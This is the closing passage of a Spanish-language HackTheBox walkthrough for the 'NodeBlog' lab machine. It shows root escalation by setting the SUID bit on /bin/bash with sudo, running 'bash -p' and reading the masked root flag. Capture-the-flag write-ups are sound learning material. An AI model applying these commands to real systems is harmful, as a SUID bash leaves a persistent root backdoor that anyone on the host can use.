 Asignamos a la bash privilegios SUID y mediante `bash -p` nos lanzamos una bash con privilegios de root. La flag la encontramos en el directorio `/root`

```bash
admin@nodeblog:~$ sudo chmod u+s /bin/bash
admin@nodeblog:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
8d41f47e8acc5d170****************
```

Hemos completado la máquina **NodeBlog** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/NodeBlog/pwned.png">
